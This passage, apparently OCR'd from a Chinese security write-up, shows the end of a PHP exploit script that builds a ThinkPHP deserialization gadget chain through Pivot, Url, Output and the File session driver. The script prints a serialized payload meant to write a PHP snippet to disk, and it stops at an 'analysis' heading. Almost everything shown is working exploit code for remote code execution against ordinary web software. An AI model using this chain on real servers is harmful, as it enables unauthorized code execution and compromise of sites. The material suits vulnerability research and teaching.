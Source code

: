 ```plain
            $this->styles[]='getDomainBind';
            $this->handle=new File($File);
        }
    }
}
namespace think{
    abstract class Model{
        use model\concern\Attribute;
        private $lazySave;
        protected $withEvent;
        protected $table;
        function __construct($cmd,$File){
            $this->lazySave = true;
            $this->withEvent = false;
            $this->table = new route\Url(new Middleware,new console\Output($File),$cmd);
        }
    }
    class Middleware{
        public $request = 2333;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{}
}

namespace think\route{
    class Url
    {
        protected $url = 'a:';
        protected $domain;
        protected $app;
        protected $route;
        function __construct($app,$route,$cmd){
            $this->domain = $cmd;
            $this->app = $app;
            $this->route = $route;
        }
    }
}


namespace{
    $zoe='<?= phpinfo(); exit();//';
    echo urlencode(serialize(new think\Model\Pivot($zoe,new think\session\driver\File)));
}
```

### 分析

